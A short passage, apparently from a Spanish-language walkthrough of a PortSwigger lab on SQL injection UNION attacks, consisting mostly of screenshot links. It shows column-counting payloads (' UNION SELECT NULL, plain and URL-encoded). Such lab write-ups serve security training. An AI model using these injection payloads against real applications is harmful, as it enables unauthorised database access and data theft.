 <p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_retrieving_data_from_other_tables/2.png" width="1000">
</p><br>

Comencemos identificando primero el número de columnas:

```plaintext
' UNION SELECT NULL —

'+UNION+SELECT+NULL —
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_retrieving_data_from_other_tables/3.png" width="1000">
</p><br>
